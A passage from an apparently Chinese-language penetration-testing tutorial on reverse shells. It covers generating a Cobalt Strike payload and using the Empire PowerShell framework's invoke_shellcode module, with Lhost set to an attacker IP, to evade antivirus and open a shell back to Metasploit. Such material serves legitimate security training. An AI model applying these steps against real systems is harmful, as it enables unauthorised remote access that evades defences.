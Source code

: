 * 第三步


客户端：

~~~
Windows：双击打开cobaltstrike.jar
~~~

~~~
linux：./cobaltstrike
~~~

* 第四步


客户端配置监听器：

```mermaid
graph LR
A[点击Cobalt Strike]-->B[Listeners]
B[Listeners]-->C[在下方Tab菜单Listeners 点击add]
```

* 第五步


客户端生成payload：

```mermaid
graph LR
A(点击Attacks)-->B(Packages)
B(Packages)-->C(Windows Executable 保存文件位置)
```

* 第六步


靶机执行相应的powershell payload。

5. **Empire反弹**

Empire是一款针对Windows平台的，使用powershell脚本作为攻击载荷的渗透攻击框架代码，具有从stager生成，提权到渗透维持的一系列功能，无需powershell.exe就可以使用powershell 的代理功能，还可以快速在后期部署漏洞利用模块，内置模块有键盘记录等，可以躲避网络检测和大部分安全防护工具，是一个基于powershell 的远控木马。

* 项目地址：<https://github.com/EmpireProject/Empire>

* 可使用如下命令利用git克隆项目安装

  ~~~bash
  git clone https://github.com/EmpireProject/Empire
  ~~~

在实际渗透中，当拿到WebShell上传的MSF客户端无法绕过目标主机的杀毒软件时,可以执行Empire的Payload来绕过，成功之后再使用Empire的模块将其反弹回Metasploit。

**步骤**

* 第一步


靶机使用Empire的usemodule code_execution/invoke_shellcode模块修改两个参数：Lhost、Lport。将Lhost修改为MSF所在主机的IP，按以下命令设置：

~~~bash
set Lhost [攻击机ip]
set Lport [port]
~~~
